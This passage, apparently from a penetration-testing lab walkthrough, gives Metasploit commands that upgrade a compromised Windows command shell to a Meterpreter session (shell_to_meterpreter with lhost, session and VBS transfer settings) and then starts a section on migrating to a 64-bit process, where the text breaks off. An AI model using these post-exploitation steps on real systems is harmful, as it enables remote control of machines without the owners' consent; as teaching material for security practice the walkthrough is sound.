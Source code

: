 
#### 3. Upgrading the Shell to a Meterpreter Session

To take advantage of the full capabilities of Meterpreter, we upgrade the command shell to a Meterpreter session.

First, background the current shell session by pressing:

```bash
CTRL + Z
```

Search for the `shell_to_meterpreter` post-exploitation module:

```bash
search shell_to
```

Use the module to upgrade the session:

```bash
use post/multi/manage/shell_to_meterpreter
```

Set the attacker's IP address:

```bash
set lhost eth1
```

Specify the session ID you want to upgrade (e.g., session 1):

```bash
set session 1
```

Check the advanced options for the module:

```bash
show advanced
```

Set the file transfer method to VBS (Visual Basic Script):

```bash
set win_transfer VBS
```

Ensure that the `LPORT` (listening port) does not conflict with the port used by the current shell session.

Run the module to upgrade to a Meterpreter session:

```bash
run
```

You should now receive a Meterpreter session (e.g., session 2).

---

#### 4. Migrating to a 64-bit Process

Check system information:
